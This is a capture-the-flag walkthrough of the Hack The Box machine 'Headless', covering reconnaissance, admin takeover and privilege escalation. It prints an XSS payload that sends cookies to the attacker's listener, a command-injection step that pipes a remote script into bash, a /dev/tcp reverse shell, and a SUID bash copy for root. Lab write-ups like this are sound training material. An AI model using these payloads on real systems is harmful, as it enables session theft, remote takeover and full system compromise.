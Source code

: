 # [Headless](https://app.hackthebox.com/machines/Headless)

```bash
nmap -p- --min-rate 5000 10.10.11.8 -Pn 
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,5000 10.10.11.8 -Pn
```

![alt text](img/image-1.png)

From nmap scan result, I see that this ip address is resolved into `headless.htb` domain, let's add this into `/etc/hosts` file for resolving purposes.


I did `Directory Fuzzing` and found `dashboard` and `support` endpoints.
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -u http://10.10.11.8:5000/ -x jsp,txt,csv,xml,js,html,config,pdf,bak
```

![alt text](img/image-2.png)



I fuzzed the `support` endpoint with XSS paylaods and it worked. Then I submit below `XSS` payload to `User-Agent`.

```bash
<script>var i=new Image(); i.src="http://10.10.14.5:8080/?cookie="+btoa(document.cookie);</script>
```

![alt text](img/image-3.png)


I can see cookies in my http server's logs.
```bash
python3 -m http.server --bind 10.10.14.5 8080
```

![alt text](img/image-4.png)


Let's decode this via `base64`.

```bash
echo {encoded} | base64 -d
```

![alt text](img/image-5.png)


Then I use this cookie while intercepting the request and change `is_admin` cookie value with grabbed one from XSS attack.

![alt text](img/image-6.png)


Now, there's feature `POST` request accepts user input, I fuzz here with `Command Injection` payloads and it worked.

![alt text](img/image-7.png)


Let's add our reverse shell payload into here.

First, I need to create malicious `.sh` file.
```bash
/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.14.5/2024 0>&1'
```

Then serve this via http.server.
```bash
python3 -m http.server --bind 10.10.14.5 8080
```

![alt text](img/image-8.png)


Then submit payload.
```bash
; curl http://10.10.14.5:8080/dr4ks.sh|bash
```

![alt text](img/image-9.png)


Hola I got reverse shell from port `2024`.

![alt text](img/image-10.png)


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```

![alt text](img/image-11.png)


user.txt

![alt text](img/image-12.png)


For privilege escalation, I just run `sudo -l` command to check privileges of this user.


![alt text](img/image-13.png)


While I read `/usr/bin/syscheck`, I can see one file called `initdb.sh`.

![alt text](img/image-14.png)


Let's create `initdb.sh` file with content that copies `/bin/bash` and give `SUID` privilege to copied `/bin/bash` file.
```bash
echo -e "cp /bin/bash /tmp/dr4ks\nchmod 4777 /tmp/dr4ks" > initdb.sh
```


![alt text](img/image-15.png)


Let's run this copied `/bin/bash` file with `-p` flag to get root shell.

root.txt

![alt text](img/image-16.png)